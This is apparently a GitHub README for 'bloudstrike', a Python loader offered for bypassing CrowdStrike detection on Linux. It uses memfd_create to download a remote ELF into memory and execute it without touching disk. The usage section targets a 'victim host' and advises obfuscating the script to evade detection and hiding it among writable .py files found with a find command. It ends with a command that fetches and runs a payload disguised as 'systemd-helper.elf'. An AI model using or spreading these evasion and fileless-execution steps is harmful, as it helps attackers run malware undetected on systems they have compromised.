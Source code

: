 # bloudstrike - a (semi-retired) CS bypass loader
During several engagements, I dealt with CS on Linux servers. It was annoying because post-exploitation enumeration scripts would instantly be killed, and manual techniques were returning wack information. The script is insanely simple, and this isn't a profound or new method of execution by any means - but it helped me work around limited execution & detection. I didn't even expect ```memfd_create``` to work as opposed to other methods that are more stealthy. I can't speak for the specifics of detections, I just know my clients were telling me that it wasn't being detected by CS - and tbh that was good enough for me.

I have used this technique a lot over the course of the last year and a half, however, as of two months ago, this stopped working as an adequate bypass. In some cases, you can run it more than once and it still works - getting you to the point of being able to execute subsequent tools, but at that marker, you've already produced a lot of detection events.

I'm publishing this because it could give you an idea of some other techniques that might work. Since I don't have access to CS Linux, I can't test my latest techniques - but I've already started to use a different method.

# Technical Details
The script leverages fileless execution using ```memfd_create``` to load ELF binaries directly into memory. It does so by calling linux syscall ```319``` to allocate a memory-only file descriptor ```(FD)```. This prevents writing the malware on disk.

A target ELF binary, is downloaded from a remote URL using ```urllib.request```and writes the ELF binary contents into the in-memory FD ``/proc/self/fd/{fd}``. 

Lastly, a new process is spawned by calling ```os.fork``` and subsequently calling```os.execve()```to directly load the binary from memory into the new process and execute it.

# Limitations
You shouldn't have any issues running it as a regular user, since ```os.fork()``` will create a process that is an exact same copy of the parent loader, and inherit the same UID, GID, and privs. Additionally, this is only going to be a good as your ELF - no matter how you may rework this loader. However, you might run into some prevention methodology. I don't want to get into the heuristics of all of the detection mechanisms in place that can stop this from working, as it might affect my other loaders. Keep in mind that EDR is now the main limitation. In some cases there *could* be AppArmor/SELinux rules that prevent this from running, but ya know - there are always ways around that.

# OS Support (Tested)
- Ubuntu 20.04, 22.04
- Debian 10, 11
- Kali Linux
# Probably Works On
- Most Linux distros with Kernel 3.17+, Alpine Linux (with ```glibc```), CentOS 7+ if you can enable ```memfd_create```
# Probably Wont Work On
- Older Linux Kernels <3.17
- Qubes OS or Hardened Alpine Linux builds
- Probably if you're running inside of Docker, LXC, or Kubernetes.

## Usage
1. Before you do any of this, please ensure that you have outbound on the victim host, since you're pulling a remote URL (obv). If you can, I'd recommend first pulling this down somewhere you can edit it [basically I don't recommend cloning this repo onto the victim host direct]. Take out the ASCII, modify print strings, change variable names, etc. Basically, obfuscate.<br><br>
```git clone https://github.com/johnjhacking/bloudstrike```<br>
```nano bloudstrike.py```<br>
<--make your edits and save--><br><br>
2. If you have TTY, you can easily just make the script while on the host. I'll leave the "where to put it" to your best discretion, reminding you that it'll be the parent execution process that shows in a proclist. I mean...a lot of ways to fry a fish.<br>
```find / -type f -name "*.py" \( -perm -u=w -o -perm -g=w -o -perm -o=w \) 2>/dev/null```<br>
3. Host the ELF file on a domain. Chmod the loader and execute.<br>
```chmod +x whatever.py```<br>OR if you went the find route, simply execute.<br>
4. ```python3 whatever.py -u http://example.com/systemd-helper.elf```
